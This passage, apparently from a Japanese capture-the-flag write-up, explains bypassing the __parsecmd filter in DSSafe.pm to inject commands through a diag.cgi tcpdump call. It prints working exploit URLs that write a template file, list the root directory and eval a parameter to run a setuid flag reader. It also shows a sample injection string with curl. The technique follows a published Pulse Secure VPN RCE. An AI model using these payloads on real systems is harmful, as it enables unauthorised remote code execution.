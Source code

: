 `system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1")` のようにユーザ入力がそのまま OS コマンドに展開されているので余裕そうに見えますが、前述の通り `system` は `__parsecmd` で引数をチェックしているため、例えば `a; curl (URL); #` のような文字列を GET パラメータとして与えても `curl (URL)` を実行してはくれません。

いろいろググっていると、[Infiltrating Corporate Intranet Like NSA: Pre-Auth RCE on Leading SSL VPNs](https://hitcon.org/2019/CMT/slide-files/d1_s0_r0_keynote.pdf#page=83) という、まさに `DSSafe.pm` の `__parsecmd` をバイパスする方法を紹介しているスライドが見つかりました。ユーザ入力が展開される箇所も `system("tcpdump -d $options >/dev/null 2>&1");` と、今回の問題とほとんど同じです。

このスライドを参考に、 `/cgi-bin/diag.cgi?options=-r$x=%22ls%20-la%20/%22,system$x%23%202%3E./tmp/neko.thtml%20%3C%20` にアクセスした後 `/cgi-bin/diag.cgi?tpl=neko` にアクセスすると、ルートディレクトリに `FLAG` という `root` だけが読めそうなファイルと、実行することでこれを読むことができそうな `$READ_FLAG$` という実行ファイルが見つかりました。

```
total 104
-rwsr-sr-x   1 root root  8520 Oct 11 23:57 $READ_FLAG$
drwxr-xr-x  23 root root  4096 Oct 12 00:00 .
drwxr-xr-x  23 root root  4096 Oct 12 00:00 ..
-r--------   1 root root    49 Oct 11 23:59 FLAG
drwxr-xr-x   2 root root  4096 Oct  2 17:11 bin
drwxr-xr-x   3 root root  4096 Oct  2 17:12 boot
drwxr-xr-x  15 root root  2980 Oct 11 19:41 dev
drwxr-xr-x  97 root root  4096 Oct 12 09:15 etc
drwxr-xr-x   4 root root  4096 Oct 11 17:21 home
lrwxrwxrwx   1 root root    31 Oct  2 17:12 initrd.img -> boot/initrd.img-4.15.0-1051-aws
lrwxrwxrwx   1 root root    31 Oct  2 17:12 initrd.img.old -> boot/initrd.img-4.15.0-1051-aws
drwxr-xr-x  20 root root  4096 Oct 11 22:11 lib
drwxr-xr-x   2 root root  4096 Oct  2 17:09 lib64
drwx------   2 root root 16384 Oct  2 17:11 lost+found
drwxr-xr-x   2 root root  4096 Oct  2 17:08 media
drwxr-xr-x   2 root root  4096 Oct  2 17:08 mnt
drwxr-xr-x   3 root root  4096 Oct 11 17:32 opt
dr-xr-xr-x 138 root root     0 Oct 11 19:41 proc
drwx------   5 root root  4096 Oct 12 09:16 root
drwxr-xr-x  25 root root   960 Oct 12 15:46 run
drwxr-xr-x   2 root root  4096 Oct  2 17:11 sbin
drwxr-xr-x   5 root root  4096 Oct 11 17:04 snap
drwxr-xr-x   2 root root  4096 Oct  2 17:08 srv
dr-xr-xr-x  13 root root     0 Oct 11 23:59 sys
drwxrwxrwt   3 root root  4096 Oct 12 17:57 tmp
drwxr-xr-x  10 root root  4096 Oct 11 21:45 usr
drwxr-xr-x  14 root root  4096 Oct 11 21:45 var
lrwxrwxrwx   1 root root    28 Oct  2 17:12 vmlinuz -> boot/vmlinuz-4.15.0-1051-aws
lrwxrwxrwx   1 root root    28 Oct  2 17:12 vmlinuz.old -> boot/vmlinuz-4.15.0-1051-aws
```

`"ls -la /"` を `"/\$READ_FLAG\$"` に変えればよさそうな雰囲気がありますが、`__parsecmd` によって `$` などの文字が制限されてしまっています。

`__parsecmd` に怒られない範囲で GET パラメータを `eval` するようにパラメータを変えて、`/$READ_FLAG$` を実行するとフラグが得られました。

```
/cgi-bin/diag.cgi?options=-r$x=%22eval%20CGI::param%20q!a!%22,eval$x%23%202%3E./tmp/neko.thtml%20%3C%20
→ /cgi-bin/diag.cgi?tpl=neko&a=print%20`/*READ_FLAG*`
```
